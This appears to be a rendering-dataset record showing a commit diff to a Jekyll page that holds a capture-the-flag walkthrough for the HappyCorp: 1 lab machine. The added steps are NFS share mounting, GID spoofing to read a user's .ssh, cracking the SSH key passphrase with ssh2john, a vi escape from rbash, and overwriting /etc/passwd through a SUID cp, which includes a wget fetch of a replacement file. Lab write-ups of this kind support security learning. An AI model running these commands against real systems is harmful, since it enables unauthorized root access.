

Before and after one commit to rajoul/rajoul.github.io, a Jekyll site: the page built from my_write_up/HappyCorp.md, in a window 1280 px wide. Shown: the top 580 px of the page, without its empty margins (105-1158 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update HappyCorp.md

````diff
--- a/my_write_up/HappyCorp.md
+++ b/my_write_up/HappyCorp.md
@@ -1,7 +1,17 @@
 
 # HappyCorp: 1
 
-1-Let's started with scanning the target machine that reveals an important port open:
+1- Let's started with scanning the target machine that reveals an important port open:
 2049 -> open -> NFS Share.
-2-enumerating the shared files :
-```showmount -e 10.0.4.36 ```
+2- Enumerating the shared files : ```showmount -e 10.0.4.36 ```
+3- Mounting the shared directory: ```mount -t nfs 10.0.4.36:/home/karl /tmp/share ```
+4- Get in the karl directory
+5- Create a group identifiant 1001: ``` groupadd -g 1001 mygroup```
+6- Affecte my user account to the group created: ``` useradd -G mygroup root``` => we can access to .ssh shared file
+7- Upload his private ssh key -> use ssh2john to retrieve the passphrase.
+8- Connect with private ssh to rbash shell
+9- Abuse vi to get out from the restricted bash: ``` vi -> :!/bin/sh```
+10- ``` find / -perm -u=s -type f 2>/dev/null```
+11- /bin/cp: can be runned as root user.
+12- ```wget http://10.0.4.36:8000/passwd  -> cp passwd /etc/passwd -> su tbag (root user)```
+13- boooooooooooooooooooom
````
